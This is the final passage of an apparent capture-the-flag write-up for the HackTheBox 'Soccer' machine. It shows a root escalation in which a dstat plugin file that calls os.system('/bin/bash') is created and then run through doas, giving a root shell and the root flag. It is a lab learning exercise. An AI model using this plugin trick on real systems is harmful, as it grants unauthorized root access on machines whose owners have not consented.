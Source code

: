 So lets create a python script file with the name **dstat_aashwin.py**

And the contents of this file name will be.

```python
import os
os.system("/bin/bash")
```

Now simply as **player** we run dstat with **doas**.

```bash
doas /usr/bin/dstat --aashwin
```

![image.png](/assets/images/Soccer_HTB/image%2027.png)

We are root!

Claiming root.txt and submitting it!

![image.png](/assets/images/Soccer_HTB/image%2028.png)

Rooted !

![image.png](/assets/images/Soccer_HTB/image%2029.png)

Thanks for reading 😊✌️
